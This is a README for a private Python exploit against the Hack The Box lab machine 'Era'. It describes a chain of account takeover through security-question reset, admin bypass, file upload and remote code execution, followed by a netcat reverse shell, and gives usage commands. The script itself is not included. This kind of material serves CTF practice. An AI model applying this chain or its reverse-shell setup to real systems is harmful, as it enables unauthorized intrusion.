 # 🚫 PRIVATE PoC: RCE Exploit for HTB "Era" (Active Machine)

> 🔒 **DO NOT PUBLISH OR DISTRIBUTE THIS FILE UNTIL THE MACHINE IS RETIRED FROM HACK THE BOX.**
>
> This exploit is strictly for educational and internal use while the machine is still active.

---

## 📌 Description

This Python script demonstrates a full exploitation chain for the *Era* machine on Hack The Box. It performs:

- User login as `yuri`
- Reset of the `admin` account’s security questions
- Login as `admin` via security bypass
- Enumeration of available file IDs
- File upload (if no files were found on server)
- Triggering **remote code execution** via a misused `ssh2.exec` handler
- Optional automatic listener launch via `nc`

---

## ⚠️ Prerequisites

- HTB VPN connected
- `http://file.era.htb` added to `/etc/hosts`:

- Python 3.7+
- Required tools:
- `curl` (only for testing)
- `nc` (`netcat`) for reverse shell
- `requests` module (should be pre-installed)

---

## 🛠️ Usage
`python3 era_rce.py <your-IP> <your-port>`

If you want to skip automatic listener:

start netcat `nc -lvnp 5050` 

execute code `python3 era_rce.py 10.10.14.60 5050 --no-listen`

<img width="1910" height="836" alt="1" src="https://github.com/user-attachments/assets/7677722e-23ff-4f53-999b-8b5d18150127" />

